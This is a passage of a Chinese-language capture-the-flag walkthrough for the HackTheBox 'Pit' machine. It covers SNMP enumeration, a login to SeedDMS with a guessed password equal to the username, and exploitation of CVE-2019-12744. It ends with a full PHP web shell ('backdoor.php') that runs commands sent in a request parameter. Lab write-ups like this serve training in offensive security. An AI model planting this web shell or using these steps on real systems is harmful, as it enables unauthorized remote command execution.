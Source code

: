 得到`10.10.10.241.snmp`文件，从中发现

> Linux版本：Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64
很多目录
username：michelle

[![](https://p5.ssl.qhimg.com/t0143646c3949870620.png)](https://p5.ssl.qhimg.com/t0143646c3949870620.png)

[![](https://p4.ssl.qhimg.com/t018657b565f3c7f817.png)](https://p4.ssl.qhimg.com/t018657b565f3c7f817.png)

搜一下seeddms，发现SeedDMS是个文档管理系统

访问`http://dms-pit.htb/seeddms51x/seeddms`

[![](https://p4.ssl.qhimg.com/t01cd2376b2fc5d0dde.png)](https://p4.ssl.qhimg.com/t01cd2376b2fc5d0dde.png)

用`michelle`这个用户测试登录，简单测试了几个密码发现密码就是用户名，成功登录SeedDMS

其中发现了一个更新日志，管理员把SeedDMS的版本从5.1.10升级到了5.1.15，CHANGELOG中也显示最后的更新记录升级到了5.1.15版本，去[exp库](https://www.exploit-db.com/)看看有无可利用的漏洞

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ccd0cd51447f6576.png)

可能是官方设计的时候出了问题，整合目前可以得到的所有信息，这台机子的渗透已经做不下去了，如果真和更新日志里写的一样，5.1.15版本没有已知可用的exp。

看了几篇国外大佬的博客，做到这普遍存在一个疑问就是：日志中明确写到5.1.11版本修复了 CVE-2019-12744，为什么这里CVE-2019-12744的exp还是可以利用?

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010aeab07a7e2ec367.png)

没办法，就当5.1.10版本继续做下去



## 漏洞利用

用CVE-2019-12744的exp可以实现**远程命令执行**

**参链**：[https://www.exploit-db.com/exploits/47022](https://www.exploit-db.com/exploits/47022)

SeedDMS中进入**michelle**用户目录下添加`1.php`文档并上传本地的`backdoor.php`,内容如下

```
//backdoor.php
&lt;?php

if(isset($_REQUEST['cmd']))`{`
        echo "&lt;pre&gt;";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "&lt;/pre&gt;";
        die;
`}`

?&gt;
```
